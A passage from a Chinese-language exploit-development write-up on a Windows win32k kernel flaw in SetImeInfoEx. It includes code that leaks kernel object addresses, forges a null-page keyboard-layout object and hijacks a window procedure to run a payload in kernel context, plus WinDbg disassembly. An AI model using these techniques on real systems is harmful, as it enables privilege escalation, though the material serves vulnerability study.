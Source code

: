 接下来通过 `HMValidateHandle` 内核对象地址泄露技术获取创建的目标窗口对象的用户态映射地址和内核地址。关于这种内核对象地址泄露技术的详细信息可参考位于“链接”章节的相关文献。

从获取到的用户态映射地址的内存中拷贝 `tagIMEINFOEX` 结构体大小的数据到利用代码定义的源输入法扩展信息对象中。获取到的窗口对象内核地址将作为位于零页的伪造键盘布局对象的成员域 `piiex` 指向的内存地址。

```
PTHRDESKHEAD head = (PTHRDESKHEAD)xxHMValidateHandle(hwndHunt);
pwndHunt = head-&gt;pSelf;
CopyMemory(&amp;iiFaked, (PBYTE)head, sizeof(tagIMEINFOEX));

DWORD *klFaked = (DWORD *)0;
klFaked[0x02] = (DWORD)klFaked;     // tagKL-&gt;pklNext
klFaked[0x03] = (DWORD)klFaked;     // tagKL-&gt;pklPrev
klFaked[0x05] = (DWORD)iiFaked.hkl; // tagKL-&gt;hkl
klFaked[0x0B] = (DWORD)pwndHunt;    // tagKL-&gt;piiex
```

与输入法扩展信息 `tagIMEINFOEX` 对象的成员域 `hkl` 对应的窗口 `tagWND` 对象的成员域正好是其中存储的窗口对象句柄。

接下来修改位于源输入法扩展信息对象中的窗口对象成员数据，置位其中的成员标志位 `bServerSideWindowProc` 并修改指针成员域 `lpfnWndProc` 的值。

```
*(DWORD *)((PBYTE)&amp;iiFaked + 0x14) |= (DWORD)0x40000;          //-&gt;bServerSideWindowProc
*(DWORD *)((PBYTE)&amp;iiFaked + 0x60) = (DWORD)xxPayloadWindProc; //-&gt;lpfnWndProc
```

这样一来，当后续的对系统服务 `NtUserSetImeInfoEx` 的调用被执行时，将使位于源输入法扩展信息对象中的被修改过的窗口对象成员数据覆盖到目标窗口对象的内存块中。接下来再向目标窗口对象发送消息时，内核函数 `xxxSendMessageTimeout` 将根据置位的成员标志位 `bServerSideWindowProc` 直接在内核上下文执行自定义的 `xxPayloadWindProc` 消息处理函数。

### <a class="reference-link" name="%E4%BA%8B%E6%83%85%E5%B9%B6%E4%B8%8D%E6%80%BB%E6%98%AF%E6%8C%89%E8%AE%A1%E5%88%92%E5%8F%91%E5%B1%95"></a>事情并不总是按计划发展

但是当我在测试环境执行编译后的利用程序时，却发现并没有像预期的那样使目标窗口对象的关键成员域被修改。通过检查发现，内核函数在 `0x946d009a` 地址执行条件转移指令直接跳过了后续的拷贝操作：

```
win32k!SetImeInfoEx+0x31:
946d0096 83784800        cmp     dword ptr [eax+48h],0
946d009a 7509            jne     win32k!SetImeInfoEx+0x40 (946d00a5)  Branch

win32k!SetImeInfoEx+0x37:
946d009c 57              push    edi
946d009d 6a57            push    57h
946d009f 59              pop     ecx
946d00a0 8bf8            mov     edi,eax
946d00a2 f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
946d00a4 5f              pop     edi

win32k!SetImeInfoEx+0x40:
946d00a5 33c0            xor     eax,eax
946d00a7 40              inc     eax
```

此处的条件转移指令用于判断位于目标输入法扩展信息 `tagIMEINFOEX` 对象 `+0x48` 字节偏移位置的成员域 `fLoadFlag` 的值，当该成员域值为 `FALSE` 时，函数才会执行后续的拷贝操作。
